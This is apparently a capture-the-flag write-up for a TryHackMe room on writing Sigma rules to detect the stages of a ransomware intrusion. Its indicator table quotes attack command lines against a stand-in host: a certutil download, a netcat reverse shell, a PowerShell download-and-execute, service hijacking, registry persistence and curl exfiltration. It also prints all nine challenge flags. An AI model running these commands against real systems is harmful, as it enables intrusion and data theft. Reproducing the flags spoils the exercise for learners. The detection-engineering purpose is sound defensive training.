## SigHunt 
You are tasked to create detection rules based on a new threat intel.
This room aims to serve as a supplementary space for Sigma rule creation. In this scenario, you will act as one of the Detection Engineers who will craft Sigma Rules based on attack details collected by an Incident Response team.
### Prerequisites
This room requires basic knowledge of detection engineering and Sigma rule creation. We recommend going through the following rooms before attempting this challenge.

* [Intro to Detection Engineering](https://tryhackme.com/room/introtodetectioneng)
* [Sigma Language](https://tryhackme.com/room/sigma)
* [Sysmon](https://tryhackme.com/room/sysmon)
 
### Sigma Validator Interface
In this room, you will be using the Sigma Validator, which is a TryHackMe tool for validating your Sigma rules! Note that this is an internal tool exclusively created for TryHackMe scenarios and is not accessible via the internet.
### How to use the Sigma Validator Interface:

* __Rules__: Select which Sigma rule you will work on.
* __Attack Log__: Use the attack log preview to understand the fields and values associated with the malicious event.
* __Fields you can use__: Shows the fields you can use to write that specific detection.
* __Detection__: Write your Sigma rule detection logic in this section.
* __Validate Detection__: Submit your Sigma rule and see if it detects the attack.

### Scenario
You are hired as a Detection Engineer for your organization. During your first week, a ransomware incident has just concluded, and the Incident Responders of your organization have successfully mitigated the threat. With their collective effort, the Incident Response (IR) Team provided the attack details based on their investigation. Your task is to create Sigma rules to enhance your organization's detection capabilities and prevent future incidents similar to this.

When you visit the Sigma Validator site, you will be given the incident report and a guide on how to use the validator to analyze and create your detection rules. After closing the report, you can open it as many times as you want by clicking the following button at the top of the page:

Below is a preview of the incident report.
### Attack Indicators
Based on the given incident report, the Incident Responders discovered the following attack chain:
* Execution of a malicious HTA payload from a phishing link.
* Execution of Certutil tool to download Netcat binary.
* Netcat execution to establish a reverse shell.
* Enumeration of privilege escalation vectors through PowerUp.ps1.
* Abused service modification privileges to achieve System privileges.
* Collected sensitive data by archiving via 7-zip.
* Exfiltrated sensitive data through cURL binary.
* Executed ransomware with huntme as the file extension.

In addition, the Incident Responders provided a table of the attack patterns at your disposal:
| Attack Technique | Indicators of Compromise |
| :--- | :--- |
| **HTA payload** | **Parent Image:** chrome.exe<br>**Image:** mshta.exe<br>**Command Line:** `C:\Windows\SysWOW64\mshta.exe C:\Users\victim\Downloads\update.hta` |
| **Certutil Download** | **Image:** certutil.exe<br>**Command Line:** `certutil -urlcache -split -f http://huntmeplz.com/ransom.exe ransom.exe` |
| **Netcat Reverse Shell** | **Image:** nc.exe<br>**Command Line:** `C:\Users\victim\AppData\Local\Temp\nc.exe huntmeplz.com 4444 -e cmd.exe`<br>**MD5 Hash:** `523613A7B9DFA398CBD5EBD2DD0F4F38` |
| **PowerUp Enumeration** | **Image:** powershell.exe<br>**Command Line:** `powershell "iex(new-object net.webclient).downloadstring('http://huntmeplz.com/PowerUp.ps1'); Invoke-AllChecks;"` |
| **Service Binary Modification** | **Image:** sc.exe<br>**Command Line:** `sc.exe config SNMPTRAP binPath= "C:\Users\victim\AppData\Local\Temp\rev.exe huntmeplz.com 4443 -e cmd.exe"` |
| **RunOnce Persistence** | **Image:** reg.exe<br>**Command Line:** `reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v MicrosoftUpdate /t REG_SZ /d "C:\Windows\System32\cmdd.exe"` |
| **7-zip Collection** | **Image:** 7z.exe<br>**Command Line:** `7z a exfil.zip * -p` |
| **cURL Exfiltration** | **Image:** curl.exe<br>**Command Line:** `curl -d @exfil.zip http://huntmeplz.com:8080/` |
| **Ransomware File Encryption** | **Image:** ransom.exe<br>**Target Filename:** `*.huntme` |
### Answer the Questions below:
#### Q1:What is the Challenge #1 flag? 
`THM{ph1sh1ng_msht4_101}`
I used the following detection rule:
```bash
detection:
    selection:
        EventID:  '1'
        Image|endswith: '\mshta.exe'
        ParentImage|endswith: '\chrome.exe'
    condition: selection
```

#### Q2:What is the Challenge #2 flag?
`THM{n0t_just_4_c3rts}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\certutil.exe'
        CommandLine|contains: 'nc.exe'
    condition: selection
```

#### Q3:What is the Challenge #3 flag?
`THM{cl4ss1c_n3tc4t_r3vs}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\nc.exe'
        CommandLine|contains|all:
            - 'nc.exe'
            - 'huntmeplz.com'
        Hashes|contains: '523613A7B9DFA398CBD5EBD2DD0F4F38'
    condition: selection
```
   
#### Q4:What is the Challenge #4 flag?
`THM{p0wp0wp0w3rup_3num}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\powershell.exe'
        CommandLine|contains: 'PowerUp.ps1'
    condition: selection
```

#### Q5:THM{ov3rpr1v1l3g3d_s3rv1c3}
`THM{ov3rpr1v1l3g3d_s3rv1c3}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\sc.exe'
        CommandLine|contains|all:
            - 'sc.exe'
            - 'huntmeplz.com'
    condition: selection
```

#### Q6:What is the Challenge #6 flag?
`THM{h1d3_m3_1n_run0nc3}`
```bash
THM{h1d3_m3_1n_run0nc3}
```

#### Q7:What is the Challenge #7 flag?
`THM{c0ll3ct1ng_7z_ftw}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\7z.exe'
        CommandLine|contains|all:
            - 'exfil.zip'
            - '7z'
    condition: selection
```

#### Q8:What is the Challenge #8 flag?
`THM{cUrling_0n_w1nd0ws}`
```bash
detection:
    selection:
        EventID: '1'
        Image|endswith: '\curl.exe'
        CommandLine|contains|all:
            - 'huntmeplz'
            - '-d'
            - '@exfil.zip'
            - '8080'
    condition: selection
```
 
#### Q9:What is the Challenge #9 flag?
`THM{huntm3_pl34s3}`
```bash
detection:
    selection:
        EventID: '11'
        TargetFilename|endswith: 'huntme'
    condition: selection
```
 

